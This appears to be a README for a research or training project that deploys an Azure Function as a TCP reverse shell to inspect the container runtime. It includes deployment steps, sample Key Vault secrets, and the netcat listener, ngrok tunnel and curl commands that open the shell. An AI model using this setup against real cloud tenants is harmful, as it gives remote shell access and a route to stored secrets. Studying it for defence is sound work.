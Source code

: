 # Puma Prey Cougar

Cougar is a C# function that can be deployed to the Azure to establish a TCP reverse shell for the purposes of introspecting the Azure Functions container runtime.

## Installing Prerequisites

* [.NET Core 3.1 SDK](https://dotnet.microsoft.com/download)
* [Azure CLI](https://github.com/Azure/azure-cli)
* [Terraform](https://learn.hashicorp.com/terraform/getting-started/install.html)

## Deploying the Function

### Native Deployment

Requires the Resource Group, Function App (.NET Core, Linux OS), App Service Plan, App Insights, and Storage Account to be created in US West.

```bash
func azure functionapp publish pumapreycougar
```

Then, enable the function identity to use an MSI account during execution.

### Terraform

NOTE: This needs work to deploy assets, etc.

```bash
cd src
dotnet restore
dotnet build
dotnet publish
cd ../terraform
terraform init
export TF_VAR_UniqueString=$(uuidgen | cut -b 25-36 | awk '{print tolower($0)}') # Save this value for future sessions.
terraform plan
terraform apply
```

TODO: Upload cougar.png to the images blob.
TODO: Needs to create an identity and attach the function to the service principal created.
TODO: Grant read, container read to the blob created.

## Deploying Assets

Create some secrets and grant permissions to the function SA.

```
az keyvault secret set --vault-name pumaprey-cougar-vault  --name "cougar-database-user" --value "cougar_user"

az keyvault secret set --vault-name pumaprey-cougar-vault  --name "cougar-database-pass" --value "QnV0IHVuaWNvcm5zIGFwcGFyZW50bHkgZG8gZXhpc3Qu"

az keyvault set-policy --name pumaprey-cougar-vault -g pumaprey-cougar --object-id 0cbd41de-55c6-460d-b92b-837eddd0ea0d --secret-permissions get list
```

## Testing in Azure

Retrieve the API key in the Azure Portal by searching for "Function App", clicking on the new Function App resource, clicking "Manage", and clicking "Click to show" next to the default function key.

If you have [Netcat](http://netcat.sourceforge.net/) and [ngrok](https://ngrok.com/) installed, you can use this script:

```bash
script/cougar --url-id "cougar$TF_VAR_UniqueString" --api-key YOUR_API_KEY
```

Alternatively, you can do this manually by setting up a Netcat listener like so:

```bash
nc -l 4444
```

Then, to make your listener accessible from the public internet, consider using a service like ngrok:

```bash
ngrok tcp 4444
```

Finally, invoke your function, supplying your connection details and API key:

```bash
curl "https://cougar$TF_VAR_UniqueString.azurewebsites.net/api/Cougar?host=YOUR_PUBLICLY_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER&code=YOUR_API_KEY"
```

Your listener will now act as a reverse shell for the duration of the function invocation.

## Teardown

```bash
terraform destroy
```

## Running Locally

Install [Azure Functions Core Tools](https://docs.microsoft.com/en-us/azure/azure-functions/functions-run-local) and run the following:

```bash
cd src
dotnet restore
dotnet build
func start
```

## Testing Locally

```bash
curl 'http://localhost:7071/api/Cougar?host=YOUR_ACCESSIBLE_HOST&port=YOUR_PORT_NUMBER'
```

## Azure Function C# Template

```bash
func init Cougar --csharp --dotnet
func new --template "HTTP trigger" --name GetCougar
```
